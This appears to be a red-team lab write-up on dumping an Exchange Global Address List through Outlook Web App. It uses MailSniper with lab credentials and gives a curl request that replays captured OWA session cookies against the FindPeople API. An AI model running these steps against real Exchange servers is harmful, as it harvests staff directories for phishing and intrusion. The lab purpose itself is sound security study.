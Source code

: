 # Dump GAL from OWA

This lab uses MailSniper to dump Global Address List (GAL) off the Outlook Web Application (OWA).

GAL - in layman terms is simply an address book of all the people that are known to the Exchange mail server. You know those auto suggestions when you are typing in the email address in the TO field in your email client - they are coming from the GAL.

What Microsoft says about GAL:

> **Global address lists (GALs)**: The built-in GAL that's automatically created by Exchange includes every mail-enabled object in the Active Directory forest. You can create additional GALs to separate users by organization or location, but a user can only see and use one GAL.
>
> [https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019](https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019)

## Execution

Import the MailSniper module and dump the GAL, provided you have at least one set of working credentials:

{% code title="attacker@local" %}
```csharp
. MailSniper.ps1
Get-GlobalAddressList -ExchHostname dc01.offense.local -UserName offense\spotless -Password 123456
```
{% endcode %}

![GAL successfully dumped](../../.gitbook/assets/screenshot-from-2019-01-15-18-58-46.png)

When looking at the contacts through the OWA UI, as mentioned in Blackhill Security article, `GetPeopleFilters` API is called to retrieve the `AddressListID`:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-16-39.png)

It is then passed to `FindPeople` API:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-21-13.png)

...which in turn retrieves a JSON object with contacts from the GAL

![](../../.gitbook/assets/screenshot-from-2019-01-15-19-03-13.png)

If you are interested in the JSON only (most likely), just switch to the Response tab:

![](<../../.gitbook/assets/Screenshot from 2019-01-15 20-12-57 (1).png>)

If you have logged on to the OWA UI, you could also dump the JSON via CURL in bash:

{% code title="attacker@kali" %}
```bash
curl 'https://dc01/owa/service.svc?action=FindPeople' -X POST -H 'Cookie: X-BackEndCookie=S-1-5-21-2552734371-813931464-1050690807-500=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/N0s7Lq87Gxc/PxczO&S-1-5-21-2552734371-813931464-1050690807-1106=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/O0s3Hq8/PxcvPxc/O; ClientId=TFFPI9GMPEWAPEYPZVIWXQ; PrivateComputer=true; PBack=0; cadata=ESW2hf2tJL2L7Czb69B+/VNo0l5+rM6POPTUJIv0Vj7vsXMUvbqXzNpIkl/GylwMQG4QQg9Y8PkjGlJXU94tEis0V03jSVdgBVUnhOm2cLE=; cadataTTL=lWhZTkknWXOawVEzMk2O5w==; cadataKey=J2xUs5cK+VfEie4cIY6lUI2mE/TkCnmPNm8GY8rJN4x0eZzPLJG5L6igl8y19Xy+i2nKIwKASgtsA8IhZ3uXHuPbd5QYpDZ0YB2yPwTxYCHmUcYWbwBnbt08EFJrAfUL1je4rYgk1iQ43za/S0q0j3Rk1bMqSG6Puk3h0cWkTh4sJ2TtJ/h2UypAVVcIzPZTicLTreFK9JfabW30+r4M+AeQQUGuFXof1iTsPx8TffjSXHeTa3rg+hTh8yZJKXieRfL9YSssSU1g+zRp09w2HqXvtqm0vtXrcCF7jLB3jBzSbC1KtQ+bYPoYQduxvhFS6TV2L8ky421wukMslBV9nQ==; cadataIV=LT7ecWINf5C9N2D4rIA8A1HcR936GFTNMtH3bVI/qr8UR0oi1+yhITjYBg1XIqt4W2YM+qPFXhKQrA0ExhlsObjAdd3KnExbAZwlLoz1YMLTo+tEKhpa6zSKjHvWsPwCZdRuXIOhvUeIyUA6XqpT/ALuCM+QzrY4K96CkkOhl276SAwqTO8cJ++9BdrF7Jcz2e0lWjdPyaXcCj7xCY7Ku6ci8SU2jfohVhUDJYJJo7DURhvLg8jto3r7Wihx2xk7/36V8SjFjz7PDhXiGKqHJltq9erLqXeNPmdZ1pwIxHywbwGNCYxdsnIrkrFRE9DRTiKrpGv2zLEz3LpcA/oBLA==; cadataSig=crGDgMGnHI1qkLJecj9/CHvQqjn8zYtdBTTU3HpszGTRysm+5JL80TnWuedWVPh3XQMFuyUdobef4WBJ3t1waLhBSGIPJSxis8fxCwChZ4nDgRlvnU4N8MJMwmw2l8dHCQTb950FGZYeuwiTxTwVQcHUwvtNQ6urkf4jlqro24G386GvPPXXpvjwZAfimSitjfzO4AucI1lv1Qbt6psmPnMphNDtn3n3R/eKvGPJWPT12DQOO4/qeyhv1Idtmi7QGSqASSQXNwP+Dtn0WPb2+RPtu3dhNf/KC+3babolnTavkYc/ioIVhHUA9J7mO8XX+c+0E94vBI1DYjJVOV2QUg==; ASP.NET_SessionId=0476a55e-b193-4001-ba25-214c7aa1ebc2; TimeOffset=0; Eac_CmdletLogging=false; UC=df6d6d163ec4477cb1b5ee11d6fcd5ae; AppcacheVer=15.1.225.42:en-uswrld; X-OWA-CANARY=DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Origin: https://dc01' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9' -H 'X-OWA-UrlPostData: %7B%22__type%22%3A%22FindPeopleJsonRequest%3A%23Exchange%22%2C%22Header%22%3A%7B%22__type%22%3A%22JsonRequestHeaders%3A%23Exchange%22%2C%22RequestServerVersion%22%3A%22Exchange2013%22%2C%22TimeZoneContext%22%3A%7B%22__type%22%3A%22TimeZoneContext%3A%23Exchange%22%2C%22TimeZoneDefinition%22%3A%7B%22__type%22%3A%22TimeZoneDefinitionType%3A%23Exchange%22%2C%22Id%22%3A%22GMT%20Standard%20Time%22%7D%7D%7D%2C%22Body%22%3A%7B%22__type%22%3A%22FindPeopleRequest%3A%23Exchange%22%2C%22IndexedPageItemView%22%3A%7B%22__type%22%3A%22IndexedPageView%3A%23Exchange%22%2C%22BasePoint%22%3A%22Beginning%22%2C%22Offset%22%3A0%2C%22MaxEntriesReturned%22%3A50%7D%2C%22QueryString%22%3Anull%2C%22ParentFolderId%22%3A%7B%22__type%22%3A%22TargetFolderId%3A%23Exchange%22%2C%22BaseFolderId%22%3A%7B%22__type%22%3A%22AddressListId%3A%23Exchange%22%2C%22Id%22%3A%224ee5c1bc-232a-4edb-b5e0-3596da3b7e05%22%7D%7D%2C%22PersonaShape%22%3A%7B%22__type%22%3A%22PersonaResponseShape%3A%23Exchange%22%2C%22BaseShape%22%3A%22Default%22%2C%22AdditionalProperties%22%3A%5B%7B%22__type%22%3A%22PropertyUri%3A%23Exchange%22%2C%22FieldURI%22%3A%22PersonaAttributions%22%7D%5D%7D%2C%22ShouldResolveOneOffEmailAddress%22%3Afalse%2C%22SearchPeopleSuggestionIndex%22%3Afalse%7D%7D' -H 'Action: FindPeople' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'X-OWA-CANARY: DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Content-Length: 0' -H 'X-OWA-ActionName: BrowseInDirectory' -H 'X-OWA-ActionId: -34' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36' -H 'Content-Type: application/json; charset=UTF-8' -H 'Accept: */*' -H 'X-OWA-ClientBuildVersion: 15.1.225.42' -H 'X-OWA-CorrelationId: TFFPI9GMPEWAPEYPZVIWXQ_154757883153962' -H 'X-OWA-ClientBegin: 2019-01-15T19:00:31.539' -H 'X-OWA-Attempt: 1' --compressed --insecure
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-15 19-26-46 (1).png>)

## References

[https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/](https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/)

{% embed url="https://www.blackhillsinfosec.com/downloading-an-address-book-from-an-outlook-web-app-owa-portal/" %}
